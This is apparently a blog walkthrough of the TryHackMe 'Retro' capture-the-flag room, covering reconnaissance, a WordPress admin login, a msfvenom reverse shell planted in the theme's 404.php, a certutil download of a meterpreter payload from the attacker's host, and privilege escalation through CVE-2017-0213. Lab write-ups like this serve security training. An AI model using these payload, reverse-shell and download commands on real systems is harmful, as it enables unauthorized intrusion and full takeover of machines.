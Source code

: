 ```yaml
---
title: "Retro CTF"
datePublished: Mon Aug 07 2023 09:07:23 GMT+0000 (Coordinated Universal Time)
cuid: cll0nft0w000g09miedbsablx
slug: retro-ctf
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1691398073255/32544658-38cb-46d5-855b-da5355a74db6.png
tags: ctf, penetration-testing, 2articles1week, tryhackme, ctf-writeup

---
```


This walkthrough will go over the [**Retro**](https://tryhackme.com/room/retro) room found on [**TryHackMe**](https://tryhackme.com/). The objective behind this room is to use a bit of passive recon to find a set of credentials in order to RDP into the box, identify a vulnerability in the `Windows COM` `(CVE-2017-0213)`, and privesc to `NT AUTHORITY\SYSTEM`.

### Step 1: What's Out There?

```bash
nmap -sC -sV -p- -Pn retro.thm --min-rate=1000
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398315139/3276f81f-931e-46fc-a431-507ba270bf34.png align="center")

Looks like we have a webserver and an RDP session open. Let's check out what the web server can offer us.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398334110/a54a66b3-878f-4450-be00-382875ec42e0.png align="center")

A default `Microsoft IIS` page. We'll use `ffuf` to enumerate for directories.

### Step 2: FFUF

```bash
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://retro.thm/FUZZ -fs 703
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398377905/5a5ad8d7-dd64-4f55-b315-8a631ebb9c81.png align="center")

Nice, we discovered a directory called `/retro`. Let's go to it.

### Step 3: Finding Credentials

We discovered a blog that seems to be run by a username `Wade`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398407110/e8fa1ff2-f791-4a96-a2d9-c9f1ba46c782.png align="center")

After downloading and viewing the `Comments RSS` data, we discovered text that might be a potential password.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691399159508/449ee0ca-cad1-4dcb-a2a0-b59ba4aa2af5.png align="center")

Taking this information and plugging it into the `Site Admin` link allows us to log in to the WordPress admin panel.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398430562/494d3ee4-899a-4795-adf3-b97906094b02.png align="center")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398433597/744cfd33-ecb7-423b-b836-30bed77627d1.png align="center")

### Step 4: Initial Foothold

Based on my experience with getting a reverse shell with WordPress, we would need to modify the `404.php` file and inject our generated shell code. We can do this with `msfvenom`.

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.13.28.215 LPORT=1337 -f raw -o retro_shell.php
```

Now let's start initializing our handler so we can catch the shell once it executes.

1. `msfconsole`
    
2. `use exploit/multi/handler`
    
3. `set payload php/meterpreter/reverse_tcp`
    
4. `set LHOST <ATTACKER_IP>`
    
5. `set LHOST 1337`
    
6. `exploit`
    

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398464051/5c95ac08-7e7c-49a3-9514-c4a3d63bc638.png align="center")

From here we want to copy our retro\_shell.php code and paste it into `404.php`.We can do this by navigating to Appearance &gt; Theme Editor &gt; 404 Template. Delete the content of the `404.php` file and paste it into your shell. Should look like this.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398480745/2db8d5ef-e503-4dc9-9f49-8772d9867edc.png align="center")

Now navigate to the file in your browser ([http://retro.thm/retro/wp-content/themes/90s-retro/404.php](http://retro.thm/retro/wp-content/themes/90s-retro/404.php)) and it will drop you into a meterpreter session.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398490021/d1f3fe9d-5e5e-439d-9033-b0611dee0c68.png align="center")

### Step 5: Detour

Okay, so for some reason I could not get the meterpreter shell to stabilize with the 404.php route. But, that's alright. Sometimes we have to get creative and approach a problem from a different angle... in the end, we still get the same outcome. Root.

So what I decided to do is RDP into the box with our same credentials and upload a payload, set my handler, and catch it with a stable meterpreter session.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398523489/9c78942b-a252-4569-8b2b-238ee9494308.png align="center")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398526561/f18a5b32-ae22-4469-b5c9-49e5096bf9e5.png align="center")

Generate a payload using `msfvenom`.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.13.28.215 LPORT=1337 -f exe -o payload.exe
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398540276/0f5e97a2-b254-4ccd-b7cb-d58b87a1bd9b.png align="center")

Start an HTTP Server and transfer it over using `certutil`.

```bash
certutil -urlcache -f http://10.13.28.215:8000/payload.exe payload.exe
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398553018/d660007e-e76a-4ec6-ac77-c2bc1f327f0d.png align="center")

Now we want to set up our listener and catch the shell. Same as before with a slight modification.

1. `msfconsole`
    
2. `use exploit/multi/handler`
    
3. `set payload windows/x64/meterpreter/reverse_tcp`
    
4. `set LHOST <ATTACKER_IP>`
    
5. `set LPORT 1337`
    
6. `exploit`
    

Run the payload from the victim box and drop it into a meterpreter session.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398569944/b784bfca-e595-4ef2-83ed-4120ec8541dc.png align="center")

### Step 6: Privesc

We're going to use the `Windows Exploit Suggester (WES)` to find a way to elevate our privileges. First, we need to pull the system's information in order to pull this off.

> `systeminfo > sysinfo.txt`

Now we can pull it down to our attack box.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398607012/92071128-8d78-40c2-9043-f7c95ff08f5e.png align="center")

From here we can use `WES` to find a privesc vector (update database before running:

```bash
./windows-exploit-suggester.py --update
```

```bash
./windows-exploit-suggester.py --database 2023-08-07-mssb.xls --sysinfo ~/sysinfo.txt --ostext 'windows 10 64-bit' -l
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398680395/042c573a-f970-4fba-b5e9-26512fb32738.png align="center")

This build of Windows 10 is vulnerable to a `Windows COM` privesc, `CVE-2017-0213`. There's a binary that we can use to automate this exploit for us. Let's download it to our attack box and upload it to our victim. Link to binary here: [https://github.com/WindowsExploits/Exploits/tree/master/CVE-2017-0213](https://github.com/WindowsExploits/Exploits/tree/master/CVE-2017-0213)

Once we get it on our victim box we can run it and then move over to our RDP session and find a new CMD shell spawned with `NT AUTHORITY\SYSTEM` rights.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691399172768/3d8491c3-f96f-4d6b-912d-db3096f8356b.png align="center")

Finally...this one was very difficult and time-consuming. I ended up going down multiple rabbit holes and failing at stabilizing shells more times than I'd like to admit. But all-in-all, I can say this box was rewarding and has taught me a lot about Windows privesc. I hope you enjoyed this walkthrough, and as always, Happy Hacking.